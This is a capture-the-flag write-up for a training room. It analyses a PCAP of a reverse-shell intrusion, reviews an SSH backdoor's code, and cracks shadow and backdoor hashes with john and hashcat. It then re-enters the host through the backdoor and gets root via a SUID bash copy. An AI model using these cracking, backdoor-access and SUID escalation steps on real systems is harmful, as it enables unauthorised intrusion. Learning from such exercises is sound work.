 # Forensics - Analyse the PCAP 
download pcap file and open it with wireshark:
1. What was the URL of the page they used to upload a reverse shell?

Upload something on web -> HTTP **POST** request. Check for post request to find the anwser.

2. What payload did the attacker use to gain access?

You can use wireshark to export object including files such as .txt .zip and .php. In this case we will export reverse shell that the attacker uploaded onto Overpass server.


In wireshark. Go to File -> Export Objects -> HTTP and select packet 14 which is the packet that include the reverse shell.

![upload.php](../pic/Screenshot%202020-08-19%20at%2015.47.18.png)

save the flie, open it with ur fav text editor and grab the payload.

1. What password did the attacker use to privesc?

From the last task we know that the reverse shell will connect back to port number 4242. Let start with filter out unnecessary packet by search for `tcp.port == 4242`


Note that the reverse shell is establised between attacker's port **4242** and victim's port **57680**. let imporve our search a bit: `tcp.port == 4242 || tcp.port == 57680`. We can now see the flow reverse shell tracffic. Take your time and try to understand it.


At some point, The attacker try to log into James account by executing `su james`. As we already know, you will need to enter user's password after executing the mentioned command. Find out what James's password

**Hint**:
<details>follow tcp stream</details>

4. How did the attacker establish persistence?

check the tcp stream and you will find out
5. Using the fasttrack wordlist, how many of the system passwords were crackable?

copy `/etc/shadow` to ur kali. now run john to crack it using `/usr/share/wordlists/fasttrack.txt`

```console
bibo318@parrot:~/THM/Overpass$ sudo john -wordlist=/usr/share/wordlists/fasttrack.txt shadow.txt
bibo318@parrot:~/THM/Overpass$ sudo john --show shadow.txt # check cracked password
```

# Research - Analyse the code 
clone backdoor from github by executing `git clone https://github.com/NinjaJc01/ssh-backdoor`
1.  What's the default hash for the backdoor? 

check for `hash` in `main.go`

2. What's the hardcoded salt for the backdoor?

check function `passwordHandler`

3. What was the hash that the attacker used? - go back to the PCAP for this!

go back to wireshark and check tcp stream. when the attacker execute `backdoor`
4. Crack the hash using rockyou and a cracking tool of your choice. What's the password?

use [hash identifier](https://www.onlinehashcrack.com/hash-identification.php) to indentify the hash. We will use hashcat to crack the hash. check hashcat [example hash](https://hashcat.net/wiki/doku.php?id=example_hashes) to find out which the hash+salt format for hash type we got from hash identifier.

```console
$ hashcat -m <operation mode> -a 0 -o crack.txt 'passwordhash:salt' /usr/share/wordlists/rockyou.txt --force
```
# Attack - Get back in! 

From `main.go` we know that:
1. the backdoor is run as over `ssh`
2. run on port 2222
3. password to blackdoor

so what are we waiting for? just ssh `into` it
```console
bibo318@parrot:~/THM/Overpass$ ssh $IP -p 2222
james@overpass-production:/home/james/ssh-backdoor$ cd ..
james@overpass-production:/home/james$ ls
ssh-backdoor  user.txt  www
```
grab user flag !!

I try to run `sudo -l` using the james's password which we recived from .pcap file before. It didnt work, Seem like the attacker changed it. Next step is looking for `SUID`, if you dont know what `SUID` is, pls do some research by youself. Anyway, I use suid3num.py to enumerate `SUID`. You can find the tool on github [link](https://github.com/Anon-Exploiter/SUID3NUM). Tranfer the script to victim server and run it
```
[~] Custom SUID Binaries (Interesting Stuff)
------------------------------
/home/james/.suid_bash
------------------------------
```
let investigate `.suid_bash`

```console
james@overpass-production:/home/james$ file .suid_bash 
.suid_bash: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=12f73d7a8e226c663034529c8dd20efec22dde54, stripped
james@overpass-production:/home/james$ ./.suid_bash 
.suid_bash-4.4$ whoami
james
```
seem like the script is a binary file which spawn a bash shell when u run it. I wonder if it just a normalt bash shell but with suid like the name of script. let check out
```console
james@overpass-production:/home/james$ ./.suid_bash -help
GNU bash, version 4.4.20(1)-release-(x86_64-pc-linux-gnu)
Usage:	./.suid_bash [GNU long option] [option] ...
	./.suid_bash [GNU long option] [option] script-file ...
GNU long options:
	--debug
	--debugger
	--dump-po-strings
```
Bing Go!! it is just a copy/paste of `/bin/bash` but it is a suid file. Try to run `bash -help`, you will get the same output. so let check [GTFOBINs](https://gtfobins.github.io/gtfobins/bash/#suid). focus on `#suid` read and observe !


now let exlpoit it by run `-p`
```console
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
```

no go grab root flag.


I really enjoyed this room, if you dont know what to do next pls check room created by [NinjaJc01](https://tryhackme.com/p/NinjaJc01). I rooted many of his room and alway enjoy it.
